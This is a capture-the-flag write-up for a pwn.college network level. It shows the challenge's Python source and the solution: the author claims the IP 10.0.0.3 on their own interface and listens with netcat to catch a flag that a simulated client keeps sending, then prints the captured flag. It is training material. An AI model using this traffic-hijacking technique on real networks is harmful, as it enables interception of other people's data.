 ### Source code
```py title="/challenge/run" showLineNumbers
#!/usr/bin/exec-suid --real -- /usr/bin/python -I

import os
import socket
import time

import psutil
from dojjail import Host, Network

flag = open("/flag").read()
parent_process = psutil.Process(os.getppid())

class ClientHost(Host):
    def entrypoint(self):
        while True:
            time.sleep(1)
            try:
                client_socket = socket.socket()
                client_socket.connect(("10.0.0.3", 31337))
                client_socket.sendall(flag.encode())
                client_socket.close()
            except (OSError, ConnectionError, TimeoutError):
                continue

user_host = Host("ip-10-0-0-1", privileged_uid=parent_process.uids().effective)
client_host = ClientHost("ip-10-0-0-2")
network = Network(hosts={user_host: "10.0.0.1", client_host: "10.0.0.2"}, subnet="10.0.0.0/24")
network.run()

user_host.interactive(environ=parent_process.environ())
```

In this level, the host at `10.0.0.2` is communicating with the host at `10.0.0.3`.
We can essentially become `10.0.0.3` so that we now receive those packets.

```
root@ip-10-0-0-1:/# ip address add 10.0.0.3/16 dev eth0
```

We have added the address on our `eth0` interface.

Now when we receive an ARP `who-has` request asking for `10.0.0.3`, we can send a `is-at` reply with our MAC address.

```
root@ip-10-0-0-1:/# nc -l 31337
pwn.college{Ij1Vds7KoGcIewEjDEEof1oBvmi.dVjNzMDL4ITM0EzW}
```

&nbsp;

## Firewall 1
